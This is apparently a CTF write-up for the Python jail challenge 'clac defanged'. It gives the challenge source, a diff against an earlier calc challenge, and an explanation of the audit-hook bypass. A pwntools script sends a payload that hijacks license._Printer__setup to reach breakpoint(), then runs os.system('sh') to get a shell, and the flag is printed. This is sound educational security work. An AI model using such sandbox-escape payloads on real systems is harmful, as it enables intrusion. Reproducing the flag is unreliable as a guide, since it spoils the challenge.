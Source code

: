 # clac defanged

```
based off of calc for ictf 2024 by maple3142

i tried modifying it to make it modular but i think now the calculator is insecure...

this challenge is not as tricky as it looks!

nc challs1.pyjail.club 23612
```

Attachment:

```python
#!/usr/local/bin/python3
from sys import addaudithook
from os import _exit
from re import match


def safe_eval(exit, code):
    def hook(*a):
        exit(0)
    def disabled_exit(*a):
        pass

    def dummy():
        pass

    dummy.__code__ = compile(code, "<code>", "eval")
    print("Activating audit hook...")
    addaudithook(hook)
    val = dummy()
    # audit hooks do not allow me to do important stuff afterwards, so i am disabling this one after eval completion
    # surely this won't have unintended effects down the line, ... right?
    print("Disabling audit hook...")
    exit = disabled_exit
    return val


if __name__ == "__main__":
    expr = input("Math expression: ")

    if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
        # extra constraints just to make sure people don't use signal this time ...
        if len(expr) <= 75 and ' ' not in expr and '_' not in expr:
            print(safe_eval(_exit, expr))
        else:
            print('Unacceptable')
    else:
        print("Do you know what is a calculator?")
```

Diff with [ImagbinaryCTF 2024 calc](../misc/pyjail/imaginaryctf-2024-calc.md):

```diff
--- main.py	2025-10-04 10:47:50.177404199 +0800
+++ calc.py	2025-10-04 10:51:11.871714435 +0800
@@ -1,4 +1,4 @@
-#!/usr/local/bin/python3
+#!/usr/bin/env python3
 from sys import addaudithook
 from os import _exit
 from re import match
@@ -7,31 +7,18 @@
 def safe_eval(exit, code):
     def hook(*a):
         exit(0)
-    def disabled_exit(*a):
-        pass
 
     def dummy():
         pass
 
     dummy.__code__ = compile(code, "<code>", "eval")
-    print("Activating audit hook...")
     addaudithook(hook)
-    val = dummy()
-    # audit hooks do not allow me to do important stuff afterwards, so i am disabling this one after eval completion
-    # surely this won't have unintended effects down the line, ... right?
-    print("Disabling audit hook...")
-    exit = disabled_exit
-    return val
+    return dummy()
 
 
 if __name__ == "__main__":
     expr = input("Math expression: ")
-
     if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
-        # extra constraints just to make sure people don't use signal this time ...
-        if len(expr) <= 75 and ' ' not in expr and '_' not in expr:
-            print(safe_eval(_exit, expr))
-        else:
-            print('Unacceptable')
+        print(safe_eval(_exit, expr))
     else:
         print("Do you know what is a calculator?")
```

1. Extra constraints: length less than or equal to 75, no spaces, no underscores: use `\x5f` instead of `_` in string to bypass limitation, use `setattr(A,B,C)` instead of `A.B=C`
2. Disable audit hook after calling `dummy`: return a object whose `__str__` evaluates `breakpoint()`, using the `[f"{license}" for license._Printer__setup in [breakpoint]]` snippet from [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)

Attack script:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs1.pyjail.club", 23612)
p.recvuntil(b"expression:")
p.sendline(
    ("1,setattr(license,'\\x5fPrinter\\x5f\\x5fsetup',breakpoint),license").encode()
)
p.sendline(b'__import__("os").system("sh")')
p.interactive()
```

Steps:

1. Set `license._Printer__setup` to `breakpoint`
2. Return `license`
3. `print(license)` calls `license._Printer__setup`
4. Enters PDB
5. Get shell

Flag: `jail{this_python_ain't_so_scary_anymore_when_defanged_73ef638f5110dc0660d01a}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf).
